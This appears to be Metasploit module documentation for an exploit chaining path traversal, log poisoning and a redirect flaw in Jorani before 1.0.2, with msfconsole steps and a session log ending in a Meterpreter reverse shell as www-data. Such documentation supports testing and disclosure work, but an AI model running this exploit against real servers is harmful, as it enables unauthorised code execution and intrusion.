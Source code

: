 ## Vulnerable Application

Jorani prior to 1.0.2 allows unauthenticated remote malicious users to execute arbitrary code.

This is due to a lack of sanitization on language parameter, that can lead to file inclusion of ".php" files.

Moreover, the log file for jorani ends with ".php" in Jorani < 1.0.2.

Log poisonning is possible, so an authenticated attacker can execute arbitrary code.

Finally, the controller responsible for recovering a page doesn't properly redirect requests made by Ajax.

So by chaining theses 3 vulnerabilities an unauthenticated user can execute arbitrary code on the application.

This module has been tested successfully on Jorani 1.0.0, Ubuntu 20.04 (x86_64) with kernel version 5.15.0-75.

## Verification Steps
1. Start `msfconsole`
2. `use exploit/multi/php/jorani_path_trav`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`. The result expected is `The target appears to be vulnerable.`
5. Default payload for the exploit will be `php/meterpreter/reverse_tcp`
6. set `LHOST`
7. `exploit`
8. Confirm you have now a cmd session

## Options

### TARGETURI (optional)
The path to the jorani website. By default it is empty.

## Scenarios

```
msf6 exploit(multi/php/jorani_path_trav) > run

[-] Handler failed to bind to 172.31.3.1:9898:-  -
[*] Started reverse TCP handler on 0.0.0.0:9898
[*] Trying to exploit LFI
[*] Recovering CSRF token
[+] CSRF found: 3ff4c712b884e3f577d9c3f65adac16f
[*] Poisonning log with payload..
[*] Sending 1st payload
[*] Including poisonned log file log-2023-06-27.php
[+] Triggering payload
[*] Sending stage (39927 bytes) to 10.0.2.2
[*] Meterpreter session 1 opened (10.0.2.15:9898 -> 10.0.2.2:46898) at 2023-06-27 19:21:28 +0200

meterpreter > getuid 
Server username: www-data
```

